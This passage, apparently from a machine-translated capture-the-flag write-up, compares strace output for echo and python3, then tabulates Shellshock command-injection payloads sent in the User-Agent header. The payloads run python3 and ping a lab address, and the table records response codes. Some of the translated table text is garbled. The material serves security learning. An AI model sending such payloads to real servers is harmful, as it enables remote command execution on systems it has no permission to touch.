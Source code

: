     oxdf@parrot$ strace echo
    ...[snip]...
    write(1, "\n", 1
    )                       = 1
    close(1)                                = 0
    close(2)                                = 0
    exit_group(0)                           = ?
    +++ exited with 0 +++
    
    oxdf@parrot$ strace python3 -c 'print()'
    ...[snip]...
    write(1, "\n", 1
    )                       = 1
    rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7fd36b83a140}, {sa_handler=0x6402c0, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7fd36b83a140}, 8) = 0
    brk(0xdc5000)                           = 0xdc5000
    exit_group(0)                           = ?
    +++ exited with 0 +++
    

我开始做实验，看看问题可能是什么。

UA 字符串

断续器代码

在转储时执行 ping 操作

输出（以恢复）为单位

`User-Agent: () { :;}; /usr/bin/python3 -c 'import os;os.system("echo")'; /bin/ping -c 1 10.10.14.15`

200

0

没有

`User-Agent: () { :;}; /usr/bin/python3 -c 'import os;os.system("/bin/ping -c 1 10.10.14.15")'; /bin/ping -c 1 10.10.14.15`

500

1

错误

`User-Agent: () { :;}; /usr/bin/python3 -c 'import os;os.system("echo; /bin/ping -c 2 10.10.14.15")'; /bin/ping -c 1 10.10.14.15`

200

2

来自蟒蛇的平结果

`User-Agent: () { :;}; echo; /usr/bin/python3 -c 'import os; os.system("/bin/ping -c 1 10.10.14.15")'; /usr/bin/id`

200
